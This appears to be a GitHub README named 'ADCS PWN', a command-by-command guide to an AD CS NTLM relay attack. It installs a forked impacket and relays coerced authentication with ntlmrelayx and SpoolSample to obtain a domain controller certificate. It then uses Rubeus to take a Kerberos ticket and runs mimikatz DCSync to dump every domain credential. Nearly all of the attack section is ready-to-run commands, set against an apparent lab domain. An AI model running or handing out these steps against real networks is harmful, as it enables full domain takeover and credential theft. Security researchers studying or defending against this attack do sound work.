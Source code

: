 ADCS PWN  
=================  

Info & Links  
https://posts.specterops.io/certified-pre-owned-d95910965cd2  
https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf  
https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/  
https://github.com/leechristensen/SpoolSample  
https://github.com/GhostPack/Rubeus  
https://github.com/gentilkiwi/mimikatz/releases   
 
How to  

Prep  
```
pip3 uninstall impacket
git clone --branch ADCS-PWN https://github.com/LuemmelSec/impacket 
cd impacket
python3 -m pip install .
```

Exploit  

On Kali  
```
python3 ntlmrelayx.py -t http://10.55.0.2/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

On Domain joined machine  
```
.\SpoolSample.exe 10.55.0.1 10.55.0.30
```

On Attacker Windows or whereever we can run Rubeus  
```
Rubeus.exe asktgt /user:dc2016$ /ptt /dc:10.55.0.1 /domain:mcafeelab.local /certificate:BASE64 Blob from ntlmrelayx
mimikatz.exe
lsadump::dcsync /domain:mcafeelab.local /all /csv
```
